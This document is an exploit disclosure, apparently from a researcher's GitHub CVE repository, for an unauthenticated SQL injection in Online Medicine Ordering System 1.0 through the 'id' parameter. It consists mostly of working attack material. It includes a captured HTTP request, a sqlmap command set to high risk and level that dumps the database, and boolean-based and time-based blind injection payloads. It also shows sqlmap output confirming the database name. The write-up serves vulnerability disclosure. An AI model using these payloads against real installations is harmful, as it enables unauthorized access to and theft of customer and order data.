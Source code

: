 # Online Medicine Ordering System - SQL Injection (Unauthenticated)
+ **Exploit Title:** Online Medicine Ordering System - SQL Injection (Unauthenticated)
+ **Date:** 2024-28-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/15359/online-medicine-ordering-system-phpoop-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=15359&title=Online+Medicine+Ordering+System+in+PHP%2FOOP+Free+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Online Medicine Ordering System 1.0 allows SQL Injection via the 'id' parameter in "/omos/?p=products/view_product&id=4". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database

## Proof of Concept:
+ Go to this address: "http://localhost/omos/?p=products"
+ Select any product
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /omos/?p=products/view_product&id=4 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=products/view_product&id=4' AND 8319=8319-- TGsD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=products/view_product&id=4' AND (SELECT 5923 FROM (SELECT(SLEEP(5)))BuVo)-- SeBw
---
[07:02:39] [INFO] testing MySQL
[07:02:40] [INFO] confirming MySQL
[07:02:40] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[07:02:40] [INFO] fetching current database
[07:02:40] [INFO] resumed: omos_db
current database: 'omos_db'
```
+ current database: `omos_db`


![Ekran görüntüsü 2024-01-31 151633](https://github.com/BurakSevben/CVEs/assets/117217689/e58cd2f9-fcc7-4e6a-a26f-0b0b54d38e8d)



